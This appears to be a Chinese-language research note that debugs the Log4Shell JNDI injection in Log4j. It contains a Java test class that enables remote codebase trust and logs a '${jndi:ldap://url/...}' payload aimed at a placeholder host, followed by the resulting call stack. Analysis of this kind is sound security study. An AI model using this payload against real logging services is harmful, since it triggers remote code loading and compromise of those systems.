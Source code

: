 测试代码如下

```java
package com.example.logdemo;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {
    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {
        logger.error("test");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        logger.error("${jndi:ldap://url/4fzudm}");
    }
}
```

由于代码使用的jndi注入，所以在`javax.naming.InitialContext#lookup()`下断点。

原因：JNDI注入的详细过程——https://www.yuque.com/m0re/demosec/yq3x4x

![image-20230616115309280](img/image-20230616115309280.png)

开启debug，运行后调用栈如下

```
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
```